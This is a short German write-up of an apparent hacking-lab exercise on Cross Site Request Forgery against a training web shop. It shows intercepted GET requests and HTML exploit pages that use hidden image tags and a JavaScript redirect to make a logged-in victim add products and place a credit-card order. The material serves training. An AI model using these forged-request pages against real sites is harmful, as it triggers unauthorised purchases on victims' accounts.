 # 2651 Cross Site Request Forgery

## Analyse
- Requests mit eingeloggtem User per ZAP Proxy abfangen
- Das Hinzufügen zum Warenkorb geschieht mit GET und Query-Parameter

```
GET http://glocken.hacking-lab.com/12001/cookie_case0/cookie0/controller?action=addproduct&productId=2&quantity=10&Submit=Order
```

- Beim Absenden der Bestellung wird ein GET auf 
```
 http://glocken.hacking-lab.com/12001/cookie_case0/cookie0/controller?action=executeCreditCardOrder
```
ausgeführt

## Exploit
Auf der Landing Page erstellen wir eine HTML-Seite, damit der Browser per `<img>`-Tag die beiden GET-Requests ausführt

```html
<html>
<body>
<img src="http://glocken.hacking-lab.com/12001/cookie_case0/cookie0/controller?action=addproduct&productId=2&quantity=20&Submit=Order" height="1" width="1"/>
<img src="http://glocken.hacking-lab.com/12001/cookie_case0/cookie0/controller?action=executeCreditCardOrder" height="1" width="1"/>
</body>
</html>
```
- Dies funktioniert aber nicht richtig, da die beiden Bilder parallel geladen werden. Zuerst muss der erste Request abgeschlossen sein, bis der zweite beginnen kann

```html
<html>
<head>
<script type="text/javascript">
    var loadSecond = function() {
    	document.location="order.html";
    }
    var img = document.images[0];
    img.addEventListener("load", loadSecond, false);
</script>
</head>
<body>
<img src="http://glocken.hacking-lab.com/12001/cookie_case0/cookie0/controller?action=addproduct&productId=2&quantity=20&Submit=Order" height="1" width="1"/>
<img src="http://glocken.hacking-lab.com/12001/cookie_case0/cookie0/controller?action=executeCreditCardOrder" height="1" width="1"/>
</body>

```
